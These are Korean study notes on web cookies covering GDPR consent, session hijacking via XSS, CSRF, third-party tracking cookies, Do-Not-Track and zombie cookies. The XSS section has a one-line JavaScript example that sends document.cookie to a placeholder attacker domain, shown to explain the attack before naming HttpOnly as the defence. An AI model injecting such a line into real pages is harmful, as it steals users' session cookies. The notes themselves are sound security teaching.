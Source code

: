 쿠키를 사용하는 경우 `GDPR` (General Data Protection Regulation) 규정에 따라 개인정보 이용목적을 안내하고 사용자의 동의를 받는 절차가 필요하다.

팝업을 띄우고 동의를 받는 것이 그것 때문이다.

## <mark style="background: #FFF3A3A6;">보안</mark>

## <mark style="background: #BBFABBA6;">session hijacking과 XSS</mark>

```js
new Image().src=
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

위와 같이 session을 가로채서 사용하는 경우가 있다. HttpOnly로 막을 수 있다.

## <mark style="background: #BBFABBA6;">Cross-Site Request Forgery</mark>

원본 사이트에서 로그인해서 쿠키를 갖고 있는 상태에서 해커가 이미지에 결제 URL을 담아서 전송, 그걸 본 유저가 로드하자마자 쿠키와 함께 HTTP요청을 해당 악성 사이트로 보내 송금시키는 느낌의 해킹이 있다.

막기 위해서 주의할 점
1. 입력 필터링
2. 확인 절차 수행
3. 쿠키의 수명을 짧게

## <mark style="background: #FFF3A3A6;">Tracking과 privacy</mark>

## <mark style="background: #BBFABBA6;">Third party cookie</mark>

도메인이 보고 있는 페이지의 도메인이다. - first party cookie

도메인이 다르다 - third party cookie

third party cookie는 다른 도메인의 서버 상에 저장된 이미지 혹은 컴포넌트를 가지고 있을 수 있어 광고와 트래킹에 사용된다.

## <mark style="background: #BBFABBA6;">Do-Not Track</mark>

DNT header를 이용해서 트래킹, Cross-site 사용자 트래킹 전부 비활성화 시킬 수 있다.

## <mark style="background: #FFF3A3A6;">zombie cookie(Evercookies)</mark>

삭제 이후에 다시 생성되는 쿠키

web storage API, Flash 로컬 공유 객체 등 다른 기술 사용해서 자신을 만들어냄.

## <mark style="background: #FF5582A6;">react-cookie</mark>

